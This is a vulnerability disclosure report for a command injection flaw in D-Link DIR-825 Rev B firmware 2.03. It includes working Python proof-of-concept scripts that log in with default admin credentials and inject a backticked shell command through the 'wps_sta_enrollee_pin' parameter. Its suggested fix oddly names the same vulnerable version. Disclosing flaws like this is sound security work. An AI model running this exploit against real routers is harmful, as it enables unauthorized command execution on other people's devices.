 

# CVE Report - Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Routers 

## Vulnerability Title

Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Router. 

## Vulnerability Description

DLINK DIR_825_REVB_FIRMWARE_2.03 devices have an OS command injection vulnerability
in the CGl interface "set_sta_enrollee_pin.cgi",which allows remote attackers to execute arbitrary
commands via parameter "wps_sta_enrollee_pin" passed to the "set_sta_enrollee_pin.cgi" binary
through a POST request.

## Reproduction Steps

1. Log in to the router.

```python
import requests

device_web_ip = '172.17.0.29'

headers = {

  'Host': device_web_ip,

  'Connection': 'keep-alive',

  'Content-Length': '1000',

  'Cache-Control': 'max-age=0',

  'Upgrade-Insecure-Requests': '1',

  'Origin': f'http://{device_web_ip}',

  'Content-Type': 'application/x-www-form-urlencoded',

  'Referer': f'http://{device_web_ip}',

  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',

  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',

  'Accept-Encoding': 'gzip, deflate',

  'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'

}

login_params = login_params = {

  'html_response_page': 'logout_fail.asp',

  'login_name': 'YWRtaW4A',

  'login_n': 'admin',

  'login_pass': 'YWRtaW4A',

  'login': 'Log In'

}

login_url = 'http://{}/login.cgi'.format(device_web_ip)

r = requests.post(url=login_url, data=login_params, headers=headers, timeout=0.2)

if r is None or r.status_code != 200:

 print('Login wrong, please retry!')

 exit()

print(r.text)
```



2. Use the following Python code to test the vulnerability:

```py
#coding=gbk
import requests
import pickle 
import time

device_web_ip = "172.17.0.29"
base_url = "http://172.17.0.29/"

headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

target_para = {
    'wps_sta_enrollee_pin':'`ping -c 3 172.17.0.1`',
    'wlan0_enable':'1'
    }
r = requests.post(url=base_url+'set_sta_enrollee_pin.cgi', data=target_para, headers=headers)
print(r.text)
```



## Cause Analysis

The get_cgi function accepts external data and it enters system execution, resulting in a command execution vulnerability.

![image-20241229183621293](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20241229183621293.png)



## Suggested Fix

It is recommended to update to the version of DIR_825_REVB_FIRMWARE_2.03 router to fix this vulnerability. 

